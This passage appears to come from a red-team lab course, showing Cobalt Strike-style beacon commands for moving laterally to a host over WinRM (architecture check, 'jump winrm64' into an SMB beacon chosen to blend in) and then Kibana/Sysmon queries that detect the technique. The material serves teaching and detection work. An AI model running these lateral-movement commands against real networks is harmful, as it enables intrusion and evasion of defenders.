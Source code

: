 The `winrm` and `winrm64` methods can be used as appropriate for 32 and 64-bit targets. There are lots of different ways to determine the architecture of a remote system - one example is to use the `Get-WmiObject` PowerShell cmdlet.
```shell
beacon> getuid
[*] You are DEV\bfarmer

beacon> remote-exec winrm srv-1 (Get-WmiObject Win32_OperatingSystem).OSArchitecture
64-bit
```

When moving laterally between targets, I recommend the SMB Beacon. The SMB protocol is used extensively in a Windows environment, so this traffic blends in very well.
```shell
beacon> jump winrm64 srv-1 smb
[+] established link to child beacon: 10.10.17.25
```

WinRM will return a high integrity Beacon running as the user with which you're interacting with the remote machine as.

![alt text](file:///android_asset/20220831123207.png)

There are multiple steps to this technique that we leverage to build a detection mechanism.  We can look for **egress** network connections with a destination port of **5985**.
```shell
event.module : sysmon and event.type : connection and network.direction : egress and destination.port : 5985
```


There's the process start event for `wsmprovhost.exe` (with an `-Embedding` parameter in the command line arguments).
```shell
event.module : sysmon and event.type : process_start and process.command_line : "C:\\Windows\\system32\\wsmprovhost.exe -Embedding"
```

PowerShell logging will also provide the script block and/or transactional log, which tells us exactly what code/commands were executed.  Use the `process.pid` field from the previous query to find its associated script block.
```shell
event.module : powershell and winlog.process.pid: 2984
```

The size of the Beacon PowerShell payload is too large to fit into a single log, so in each message you'll see "Creating Scriptblock text (X of Y)".  Each log can be correlated with the `script_block_id` field, which is a GUID.

To automate this, the Security App has a Rule entitled "WinRM Remote Code Execution".  It uses Event Query Language (EQL) which is great for finding relationships between different events.

![alt text](file:///android_asset/20220831123252.png)

>Move laterally to SRV-1 using WinRM and investigate the logs in Kibana.

